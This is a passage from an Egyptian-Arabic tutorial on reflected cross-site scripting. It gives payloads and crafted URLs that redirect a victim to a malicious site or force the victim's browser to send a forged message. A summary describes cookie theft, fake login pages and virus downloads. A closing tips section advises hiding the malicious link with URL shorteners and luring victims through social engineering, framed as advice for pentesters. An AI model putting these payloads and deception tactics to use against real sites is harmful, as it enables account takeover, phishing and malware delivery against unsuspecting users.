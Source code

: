 6. **إعادة توجيه لموقع خبيث:**
   - **الوصف**: ترمي الضحية على موقع فيه هجمات تانية.
   - **Payload**:
     ```html
     <script>window.location='malicious-site.com';</script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>window.location='malicious-site.com';</script>
     ```
   - **الخطوات**:
     1. اختار موقع خبيث.
     2. صمم الرابط عشان يعمل Redirect.

7. **استغلال ميزات الموقع:**
   - **الوصف**: تستخدم الرابط عشان تنفذ ميزات زي إرسال رسايل أو تعديل بيانات.
   - **Payload**:
     ```html
     <script>
       fetch('example.com/send-message', {
         method: 'POST',
         body: 'message=You are hacked!'
       });
     </script>
     ```
   - **الرابط**:
     ```
     example.com/search?query=<script>fetch('example.com/send-message',{method:'POST',body:'message=You are hacked!'});</script>
     ```
   - **الخطوات**:
     1. ادرس ميزات الموقع.
     2. صمم الرابط عشان ينفذ الأوامر دي.

---

**خلاصة بالعامية للسيناريوهات:**
كل رابط زي خطة هجوم مختلفة. ممكن تسرق الكوكيز وتتحكم في الحساب، أو تخلّي الضحية تدخل بياناتها في صفحة مزيفة، أو حتى تخلّيها تحمل فيروس. المهم تفهم الموقع شغال إزاي وتصمم الرابط اللي يضرب الهدف بالظبط.

---

### **4. نصايح للـ Pentester**
1. **اختبر في بيئة آمنة**: استخدم موقعك الخاص أو بيئة اختبار عشان تتجنب المشاكل القانونية.
2. **جرب Payloads متنوعة**: المواقع بتستخدم فلاتر مختلفة، فجرب `<img>`، `<svg>`، أو أكواد مشفرة.
3. **اختصر الـ URLs**: استخدم خدمات تقصير الروابط (زي bit.ly) عشان تخفي الرابط الخبيث.
4. **استخدم Social Engineering**: عشان الضحية تفتح الرابط، صمم إيميل أو رسالة مقنعة.
5. **سجّل كل خطوة**: وانت بتختبر، دوّن الـ Payloads والنتايج عشان تقريرك يكون دقيق.
6. **افهم سياق الموقع**: شوف الباراميتر بيتعامل معاه إزاي (في HTML، Attributes، أو JavaScript).

---
